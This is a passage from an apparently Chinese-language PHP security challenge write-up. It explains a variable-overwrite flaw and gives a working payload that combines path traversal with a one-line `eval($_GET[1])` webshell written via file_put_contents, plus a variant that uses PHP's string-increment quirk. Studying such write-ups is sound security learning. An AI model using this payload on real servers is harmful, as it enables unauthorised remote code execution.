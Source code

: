 这里有一个明显的变量覆盖漏洞，`id` 尽管被赋上了随机数，但实际上还是可控的。

```php
file_put_contents ( string $filename , mixed $data [, int $flags = 0 [, resource $context ]] ) : int
```

> PHP 有个好玩的地方，能传 `$filename` 的地方，基本上可以用 PHP 伪协议流。
>
> 可惜这里的 EXTERNAL_DIRECTORY 不可控，不好用其他技巧了。
>
> 想深入了解可以参考 ph 师傅的这篇文章，[谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

`get_object_vars($this)` 没有采取任何过滤，可直接写入 `webshell`。

### payload

```php
id=../../var/www/html/shell.php&t=<?php%20eval($_GET[1])?>

// print_r(var_export(get_object_vars($this), true));   
array (
  'id' => '../../var/www/html/shell.php',
  'lost' => 0,
  'bought' => 0,
  't' => '<?php eval($_GET[1])?>',
)
    
// echo self::EXTERNAL_DIRECTORY . $this->id;
/tmp/../../var/www/html/test/shell.php
```

**变一变**

```php
$this->$field = $count++;  -–>  $this->$field = ++$count;
```

php 有个很有意思的特性：

```php
php > $s = '1';
php > echo ++$s;  // 2
php > $s = 'a';
php > echo ++$s;  // b
php > $s = 'abc';
php > echo ++$s;  // abd
```

这时候只需要稍微改下即可

```
id=../../var/www/html/shell.pho&t=<?php%20eval($_GET[1])?>
```



## 15 - Sleigh Ride
